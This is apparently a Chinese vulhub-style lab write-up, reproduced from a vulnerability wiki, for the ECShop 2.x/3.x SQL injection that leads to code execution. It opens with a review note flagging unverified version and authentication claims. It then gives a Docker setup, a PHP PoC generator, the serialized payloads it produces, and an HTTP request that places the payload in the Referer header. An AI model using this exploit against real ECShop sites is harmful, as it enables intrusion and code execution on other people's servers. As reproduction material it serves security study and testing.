


## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Vulnerable pre-fix3.6.0 build distinct from fixed3.6.0 latest; static hash; PHP gadget/template runtime

- **事实待核（1）**：Same semantic version3.6.0 described fixed and vulnerable; precise commit/date critical。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：Registers user but request targets login page; whether auth required not established。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Reports3.x hash failed while2.x hash worked on3.x environment; preserve anomaly, verify actual build rather than silently choosing3.x payload。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：Source analysis linked and reusable serialization generator good。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ECShop 2.x/3.x SQL注入/任意代码执行漏洞

## 漏洞描述

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。

注册普通用户user。

## 漏洞复现

POC脚本：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

```
POC for ECShop 2.x: 
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

POC for ECShop 3.x: 
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: [POC HERE]
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

2.x的执行结果：




3.x的执行结果（使用3.x的POC执行不成功，使用2.x的POC执行成功）：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
